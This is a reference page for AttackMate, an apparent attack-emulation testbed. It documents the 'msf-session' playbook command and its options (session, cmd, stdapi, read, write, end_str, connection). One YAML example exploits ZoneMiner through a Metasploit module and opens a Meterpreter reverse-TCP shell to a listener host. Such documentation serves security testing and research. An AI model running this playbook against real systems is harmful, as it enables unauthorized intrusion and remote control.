

repository: ait-testbed/attackmate · page: development/playbook/commands/msf-session.html · generator: sphinx

.. _msf-session:

===========
msf-session
===========

Execute commands in an active Meterpreter session previously opened by an
:ref:`msf-module` command.

.. note::

   To configure the connection to ``msfrpcd``, see :ref:`msf_config`.

.. code-block:: yaml

      commands:
        # First, exploit a vulnerability and create a session:
        - type: msf-module
          cmd: exploit/unix/webapp/zoneminder_snapshots
          creates_session: foothold
          options:
            RHOSTS: 192.42.0.254
          payload: cmd/unix/python/meterpreter/reverse_tcp
          payload_options:
            LHOST: 192.42.2.253

        # Then, execute a command in the session:
        - type: msf-session
          session: foothold
          stdapi: True
          cmd: getuid


.. confval:: session

   Name of the session to operate in. Must have been created previously by an
   :ref:`msf-module` command using :confval:`creates_session`.

   :type: str
   :required: True


.. confval:: cmd

   Command to execute in the session.

   :type: str


.. confval:: stdapi

   Load the stdapi extension in the Meterpreter session before executing the command.
   Required for many standard Meterpreter commands.

   :type: bool
   :default: ``False``

.. confval:: write

   Execute a raw write-operation to the session without reading the output.

   .. note::

      If both ``write`` and ``read`` are ``True``, AttackMate will first write and then read.

   :type: bool
   :default: ``False``

.. confval:: read

   Execute a raw read-operation from the session without a preceding write-operation.

   :type: bool
   :default: ``False``

.. confval:: end_str

   String indicating the end of a read-operation.

   :type: str

.. confval:: connection

   Name of the MSF server connection to use, as defined in :ref:`msf_config`.
   If omitted, the first configured connection is used.

   :type: str
